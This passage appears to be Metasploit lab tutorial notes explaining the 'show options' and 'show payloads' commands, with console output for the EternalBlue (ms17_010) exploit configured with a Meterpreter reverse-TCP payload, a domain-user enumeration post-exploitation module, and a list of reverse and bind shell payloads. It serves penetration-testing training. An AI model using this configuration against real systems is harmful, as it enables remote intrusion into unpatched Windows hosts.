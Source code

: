 
Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.220.191    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

This will print options related to the exploit we have chosen earlier. The show options command will have different outputs depending on the context it is used in. 

The example above shows that this exploit will require we set variables like ```RHOSTS and RPORT```. On the other hand, a post-exploitation module may only need us to set a SESSION ID (see the screenshot below). A session is an existing connection to the target system that the post-exploitation module will use.

#### Options for a post-exploitation module
```
msf6 post(windows/gather/enum_domain_users) > show options

Module options (post/windows/gather/enum_domain_users):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HOST                      no        Target a specific host
   SESSION                   yes       The session to run this module on.
   USER                      no        Target User for NetSessionEnum

msf6 post(windows/gather/enum_domain_users) >
```

The show command can be used in any context followed by a module type (auxiliary, payload, exploit, etc.) to list available modules. The example below lists payloads that can be used with the ms17-010 Eternalblue exploit.

#### The show payloads command
```
msf6 exploit(windows/smb/ms17_010_eternalblue) > show payloads

Compatible Payloads
===================

   #   Name                                        Disclosure Date  Rank    Check  Description
   -   ----                                        ---------------  ----    -----  -----------
   0   generic/custom                                               manual  No     Custom Payload
   1   generic/shell_bind_tcp                                       manual  No     Generic Command Shell, Bind TCP Inline
   2   generic/shell_reverse_tcp                                    manual  No     Generic Command Shell, Reverse TCP Inline
   3   windows/x64/exec                                             manual  No     Windows x64 Execute Command
   4   windows/x64/loadlibrary                                      manual  No     Windows x64 LoadLibrary Path
   5   windows/x64/messagebox                                       manual  No     Windows MessageBox x64